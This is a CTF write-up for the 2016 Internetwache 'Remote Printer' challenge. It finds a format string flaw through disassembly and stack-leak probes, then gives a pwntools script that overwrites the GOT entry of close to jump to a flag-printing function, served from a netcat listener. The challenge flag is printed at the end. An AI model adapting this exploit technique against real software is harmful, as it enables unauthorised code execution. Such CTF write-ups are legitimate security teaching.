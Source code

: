 ```yaml
---
title: 'Internetwache CTF 2016: Remote Printer (exp 80)'
date: 2016-02-21 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
- tool/pwntools
- vuln/fmtstr
layout: post
author: f0rki
---
```


* **Category:** Exploit
* **Points:** 80
* **Description:**

> Printer are very very important for offices. Especially for remote printing.
> My boss told me to build a tool for that task.

## Write-up

So this remote printer takes an address and a port and connects to the remote
service. It then reads some data and outputs it. Well let's just point it to
itself:

```
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:127.0.0.1
Enter port:12377
Thank you, I'm trying to print 127.0.0.1:12377 now!
This is a remote printer!
```

The last line is the input from itself. So we probably need a listener
reachable via the internet.

The binary itself is rather small, it just consists of the `main` function and
`0x08048786`. The main function uses scanf to read the ip address and port and
calls the second function which connects to the given ip address and port.
Then receives up to `0x2000` bytes of data and then prints it. Let's take a
look at the later one:

```
0x08048815      6a00           push 0
0x08048817      6800200000     push 0x2000
0x0804881c      8d85e4dfffff   lea eax, [ebp-local_2055]
0x08048822      50             push eax
0x08048823      ff75f4         push dword [ebp - 0xc]
0x08048826      e885fdffff     call sym.imp.recv         ; recv 0x2000 to stack

[...]

0x08048844      83ec0c         sub esp, 0xc
0x08048847      8d85e4dfffff   lea eax, [ebp-local_2055]
0x0804884d      50             push eax
0x0804884e      e88dfcffff     call sym.imp.printf      ; input
0x08048853      83c410         add esp, 0x10
0x08048856      83ec0c         sub esp, 0xc
0x08048859      ff75f4         push dword [ebp - 0xc]
0x0804885c      e85ffdffff     call sym.imp.close
0x08048861      83c410         add esp, 0x10
0x08048864      90             nop
```

We can see that the buffer, which is located on the stack, is printed using
`printf`... oh. Classic format string vulnerability. Should be easy.

```
$ python2 -c 'print "ABCD" + ".%p"*100' | nc -vv -l -p 4444
$ nc 188.166.133.53 12377
This is a remote printer!
Enter IPv4 address:X.X.X.X
Enter port:4444
Thank you, I'm trying to print X.X.X.X:4444 now!
ABCD.0xffffbcec.0x2000.(nil).(nil).(nil).(nil).0x44434241.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0x2e70252e.0x252e7025.0x70252e70.0xa.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil)
```

So it's definitely a format string vulnerability and we can see that at offset
7 is the start of our format string. So that's where we can put the addresses
we want to write to.

We can see that immediately after the call to `printf` there is a call to
`close`. So we do the usual: Overwrite `GOT` entry of `close` with something of
our liking to take over control flow. Because the organizers were nice they
left us some dead code lying around that will print us the flag at
`0x08048867`. So we'll just redirect control flow there.

```python
from pwn import *  # NOQA

velf = ELF("./RemotePrinter")
gotclose = velf.got["close"]

# uses two 2-byte writes to keep printed garbage at minimum
fmtstr = p32(gotclose)
fmtstr += p32(gotclose + 2)
target = 0x08048867
x = 0x0804 - 8
y = 0x8867 - 8 - x
fmtstr += "%{}c%8$hn%{}c%7$hn".format(x, y)

log.info("trying to write to got entry @ {}".format(hex(gotclose)))
log.info("overwriting with function {}".format(hex(target)))

log.info("using format string: \n" + hexdump(fmtstr))

with open("./payload", "wb") as f:
    f.write(fmtstr)
    f.write("\n")

# use with
# cat payload | nc -v -l -p 4444
```

And we have the flag:

```
YAY, FLAG: IW{YVO_F0RmaTt3d_RMT_Pr1nT3R}
```
